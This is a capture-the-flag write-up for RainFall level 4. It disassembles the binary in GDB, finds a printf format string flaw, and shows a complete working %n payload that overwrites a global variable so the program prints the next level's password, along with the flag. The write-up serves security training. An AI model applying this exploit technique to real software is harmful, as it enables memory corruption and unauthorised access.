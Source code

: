 # **Level4**

In this level, we found a binary that takes input and prints it:

```bash
level4@RainFall:~$ ./level4
wqw
wqw
level4@RainFall:~$
```

## **Binary Analysis**

Using GDB, we analyzed the binary and found that the `main` function simply calls the function n:

```bash
(gdb) disas main
Dump of assembler code for function main:
0x080484a7 <+0>:	push   %ebp
0x080484a8 <+1>:	mov    %esp,%ebp
0x080484aa <+3>:	and    $0xfffffff0,%esp
0x080484ad <+6>:	call   0x8048457 <n>
0x080484b2 <+11>:	leave
0x080484b3 <+12>:	ret
End of assembler dump.
(gdb)
```

Analyzing the n function reveals that the program uses **`fgets`** to read input into a buffer, which is then passed directly to p function  prints the input using printf.  The function also compares a global variable, **`m`** (located at 0x8049810), with **`0x1025544`** (16930116 in decimal). If the comparison succeeds, it calls **`system`**.

```nasm
(gdb) disas n
0x08048457 <n+0>:       push   %ebp
0x08048458 <n+1>:       mov    %esp,%ebp
0x0804845a <n+3>:       sub    $0x218,%esp        ; Allocate 536 bytes
0x08048460 <n+9>:       mov    0x8049804,%eax     ; stdin
0x08048465 <n+14>:      mov    %eax,0x8(%esp)
0x08048469 <n+18>:      movl   $0x200,0x4(%esp)   ; Size = 512
0x08048471 <n+26>:      lea    -0x208(%ebp),%eax  ; Buffer
0x08048477 <n+32>:      mov    %eax,(%esp)
0x0804847a <n+35>:      call   0x8048350 <fgets@plt>
0x0804848d <n+54>:      mov    0x8049810,%eax     ; Load global variable
0x08048492 <n+59>:      cmp    $0x1025544,%eax    ; Compare with 0x1025544
0x08048497 <n+64>:      jne    0x80484a5 <n+78>   ; Jump if not equal
0x08048499 <n+66>:      movl   $0x8048590,(%esp)  ; "/bin/cat /home/user/level5/.pass"
0x080484a0 <n+73>:      call   0x8048360 <system@plt>
(gdb)
```

**Finding the Format String Offset**

```nasm
level4@RainFall:~$ ./level4
AAAA %x %x %x %x %x %x %x %x %x %x %x %x
AAAA b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 41414141
level4@RainFall:~$
```

- Our input "AAAA" (41414141 in hex) appears at position 12. we used to Each %x shows a memory value

## **Vulnerability**

The vulnerability is in function **`p`** where user input is passed directly to **`printf`**, allowing for a format string attack.

## **Exploit**

We need to write **`0x1025544`** (16930116) to **`0x8049810`**. We can use **`%n`** with the correct padding:

```python
# Target address (0x8049810) in little-endian
address = "\x10\x98\x04\x08"

# Need total bytes = 16930116 (0x1025544)
# 4 bytes for address, so padding = 16930116 - 4
padding = "%16930112x"

# Write to 12th parameter
write = "%12$n"

# Final exploit
exploit = address + padding + write
```

1. Create and run exploit

```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"' | ./level4
```

1. Result

```bash
level4@RainFall:~$ cat /tmp/exploit | ./level4
[...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## Flag

```nasm
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```